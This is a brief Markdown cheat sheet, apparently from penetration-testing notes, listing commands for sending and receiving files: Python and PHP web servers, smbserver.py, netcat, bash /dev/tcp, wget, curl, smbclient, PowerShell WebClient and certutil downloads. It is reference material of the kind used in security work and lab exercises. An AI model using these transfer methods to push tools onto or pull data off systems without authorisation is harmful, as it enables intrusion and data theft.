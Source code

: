 # File Transfer

{% hint style="info" %}
You can always check the integrity of the files using `md5sum` to ensure they were transferred successfully.
{% endhint %}

## Sending

### Python3

```bash
python3 -m http.server <PORT>
```

### Python2

```bash
python -m SimpleHTTPServer <PORT>
```

### PHP

```bash
php -S 0.0.0.0:<PORT>
```

### SMB

```bash
smbserver.py <SHARE_NAME> $(pwd) -smb2support
```

### Ncat

```bash
nc -nlvp <PORT> < <FILE>
```

### Bash

```bash
cat <FILE> > /dev/tcp/<IP>/<PORT>
```

## Receiving

### Ncat

```bash
nc -nlvp <PORT> > <OUTPUT_FILE>
```

### Bash

```bash
cat < /dev/tcp/<IP>/<PORT> > <OUTPUT_FILE>
```

### Wget

```bash
wget <URL>
```

### Curl

```bash
curl -s <URL> -o <OUTPUT_FILE>
```

### SMB

Linux

```bash
smbclient //<IP>/<SHARE_NAME> -c "get <FILE> <OUTPUT_FILE>"
```

Windows

```batch
copy \\<IP>\<SHARE_NAME>\<FILE> <OUTPUT_FILE>
```

### PowerShell

```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <OUTPUT_FILE>
```

### Batch

```batch
certutil -urlcache -split -f <URL> <OUTPUT_FILE>
```
